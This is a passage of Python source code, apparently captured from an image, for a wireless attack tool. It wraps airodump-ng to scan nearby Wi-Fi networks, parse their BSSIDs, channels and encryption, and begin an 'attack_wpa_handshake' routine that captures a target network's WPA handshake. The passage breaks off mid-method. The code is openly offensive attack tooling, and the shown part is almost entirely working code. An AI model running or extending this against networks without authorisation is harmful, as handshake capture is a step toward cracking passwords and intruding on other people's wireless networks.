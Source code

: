 ```python
            return True
        except Exception as e:
            self.logger.error(f"Failed to enable monitor mode: {e}")
            return False
    
    def reconnaissance(self, duration=300):
        """Perform wireless reconnaissance"""
        self.logger.info("Starting wireless reconnaissance...")
        
        output_file = f"recon_{int(time.time())}"
        cmd = [
            'timeout', str(duration),
            'airodump-ng', self.interface,
            '--write', output_file,
            '--output-format', 'csv'
        ]
        
        subprocess.run(cmd)
        
        # Parse results
        csv_file = f"{output_file}-01.csv"
        if Path(csv_file).exists():
            self.results['reconnaissance'] = self.parse_airodump_csv(csv_file)
            return True
        
        return False
    
    def parse_airodump_csv(self, csv_file):
        """Parse airodump CSV results"""
        import csv
        
        networks = []
        with open(csv_file, 'r') as f:
            reader = csv.DictReader(f)
            for row in reader:
                if row.get('BSSID'):
                    networks.append({
                        'bssid': row['BSSID'],
                        'essid': row.get('ESSID', ''),
                        'channel': row.get('channel', ''),
                        'privacy': row.get('Privacy', ''),
                        'power': int(row['Power']) if row.get('Power') else 0
                    })
        
        return networks
    
    def attack_wpa_handshake(self, target):
        """Attack WPA/WPA2 networks for handshake capture"""
        bssid = target['bssid']
        channel = target['channel']
        
        self.logger.info(f"Attacking {bssid} on channel {channel}")
        
        # Start capture
        output_file = f"handshake_{bssid.replace(':', '')}"
        capture_cmd = [
            'airodump-ng', '-c', channel,
            '--bssid', bssid, '-w', output_file,
            self.interface
        ]
        
        capture_proc = subprocess.Popen(capture_cmd)
        time.sleep(5)
```